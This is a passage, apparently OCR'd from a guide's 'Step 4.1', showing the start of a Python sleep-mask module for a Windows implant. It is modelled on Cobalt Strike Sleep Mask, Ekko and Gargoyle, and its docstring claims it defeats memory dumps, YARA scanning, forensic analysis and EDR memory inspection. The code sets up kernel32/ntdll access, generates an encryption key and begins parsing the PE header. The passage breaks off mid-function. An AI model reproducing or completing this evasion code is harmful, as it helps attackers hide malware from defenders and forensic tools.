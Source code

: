 ### **Step 4.1: Create Core/sleep_mask.py**

```python
#!/usr/bin/env python3
"""
Sleep Mask - Encrypted Dormancy
Based on Cobalt Strike Sleep Mask and Ekko technique
"""

import ctypes
from ctypes import wintypes
import sys
import os
import secrets
from typing import Optional

class SleepMask:
    """
    Encrypt entire process image during sleep
    
    Research:
    - Cobalt Strike Sleep Mask (2020)
    - Ekko by @C5pider (2022)
    - Gargoyle by Josh Lospinoso (2017)
    
    Defeats:
    - Memory dumps during sleep
    - YARA scanning
    - Forensic analysis
    - EDR memory inspection
    
    How it works:
    1. Before sleep: Encrypt all executable memory
    2. Set timer to decrypt after sleep duration
    3. Enter alertable sleep
    4. Timer fires: Decrypt memory
    5. Resume execution
    """
    
    def __init__(self):
        self.is_windows = sys.platform == 'win32'
        
        if self.is_windows:
            self.kernel32 = ctypes.windll.kernel32
            self.ntdll = ctypes.windll.ntdll
            
            # Get process image info
            self.image_base = self.kernel32.GetModuleHandleW(None)
            self.image_size = self._get_image_size()
            
            # Generate encryption key
            self.sleep_key = secrets.token_bytes(32)
            
            # Track encrypted regions
            self.encrypted_regions = []
    
    def _get_image_size(self) -> int:
        """Get size of PE image from headers"""
        try:
            # Read DOS header
            dos_sig = ctypes.c_uint16.from_address(self.image_base).value
            if dos_sig != 0x5A4D:  # MZ
                return 0
```